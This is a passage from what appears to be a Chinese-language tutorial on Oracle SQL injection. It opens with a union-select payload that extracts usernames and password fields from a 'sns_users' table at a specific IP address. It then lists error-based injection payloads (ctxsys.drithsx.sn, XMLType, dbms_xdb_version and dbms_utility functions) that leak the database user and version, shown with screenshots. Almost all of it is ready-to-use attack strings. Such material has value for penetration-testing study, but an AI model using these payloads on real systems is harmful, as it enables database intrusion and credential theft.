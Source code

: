 
## 9、美化输出
Oracle采用||进行数据连接
```
http://219.153.49.228:44768/new_list.php?id=-1 union select '用户名：'||USER_NAME,'密码：'||USER_PWD from "sns_users" where rownum=1
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627356270321-022d9ac4-944b-4251-9f20-fa13afadd1b9.png#align=left&display=inline&height=281&margin=%5Bobject%2Object%5D&name=image.png&originHeight=562&originWidth=2512&size=124098&status=done&style=none&width=1256)
# 0x04 报错注入
报错注入是一种通过函数报错前进行子查询获取数据，再通过错误页面回显的一种注入手法，下面介绍几种报错注入函数以及获取一些常见的获取数据，实际操作只需要将子查询内的查询语句进行替换即可。
## 1、ctxsys.drithsx.sn()
```
#获取当前数据库用户 ORACLE1
?id=1 and 1=ctxsys.drithsx.sn(1,(select user from dual)) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627370671892-ba68c50c-4b25-48c6-8121-2ee170485de9.png#align=left&display=inline&height=357&margin=%5Bobject%2Object%5D&name=image.png&originHeight=714&originWidth=2512&size=177516&status=done&style=none&width=1256)
```
#获取数据库版本信息
?id=1 and 1=ctxsys.drithsx.sn(1,(select banner from sys.v_$version where rownum=1)) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627370745612-670ae342-fb32-42ff-8b48-bd894e0b6d3f.png#align=left&display=inline&height=341&margin=%5Bobject%2Object%5D&name=image.png&originHeight=682&originWidth=2492&size=195982&status=done&style=none&width=1246)
## 2、XMLType()
```
?id=1 and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464280011-c070c8c1-5831-4516-93a5-d9de8e4728b2.png#align=left&display=inline&height=466&margin=%5Bobject%2Object%5D&name=image.png&originHeight=932&originWidth=1860&size=83611&status=done&style=none&width=930)
## 3、dbms_xdb_version.checkin()
```
#获取数据库版本信息
?id=1 and (select dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627370853172-60c1003a-f2bc-45e7-88e4-e1dc5b544009.png#align=left&display=inline&height=352&margin=%5Bobject%2Object%5D&name=image.png&originHeight=704&originWidth=2466&size=181678&status=done&style=none&width=1233)
## 4、bms_xdb_version.makeversioned()
```
#获取当前数据库用户 ORACLE1
?id=1 and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627371068298-bf405b32-0774-4999-b59c-5f972ff993eb.png#align=left&display=inline&height=299&margin=%5Bobject%2Object%5D&name=image.png&originHeight=598&originWidth=2500&size=157266&status=done&style=none&width=1250)
## 5、dbms_xdb_version.uncheckout()
```
#获取数据库版本信息
?id=1 and (select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627371151615-1dc8551d-bb05-4b01-ab12-fb20b684f7b1.png#align=left&display=inline&height=305&margin=%5Bobject%2Object%5D&name=image.png&originHeight=610&originWidth=2464&size=184586&status=done&style=none&width=1232)
## 6、dbms_utility.sqlid_to_sqlhash()
```
#获取数据库版本信息
?id=1 and (SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```